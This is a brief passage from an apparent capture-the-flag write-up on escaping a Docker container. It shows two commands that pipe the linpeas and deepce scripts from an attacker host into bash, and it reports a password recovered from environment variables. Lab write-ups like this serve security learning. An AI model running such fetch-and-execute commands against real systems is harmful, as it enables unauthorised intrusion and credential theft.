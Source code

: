 
### Docker escape via password reuse from environment variable

Since I'm unfamiliar with docker escape, I'll just run `deepce` and `linpeas`

```bash
2e299cf65045:/proc/sys/kernel$ curl 10.10.14.7/linpeas.sh|bash
2e299cf65045:/proc/sys/kernel$ curl 10.10.14.7/deepce.sh|bash
```

![](/assets/obsidian/609e0b58431021d934bf3d5bb85a7838.png)

![](/assets/obsidian/f3f70e16c027db62bbcb7c5b4553bb32.png)

Found 1 password and 2 protentional users from environment variables

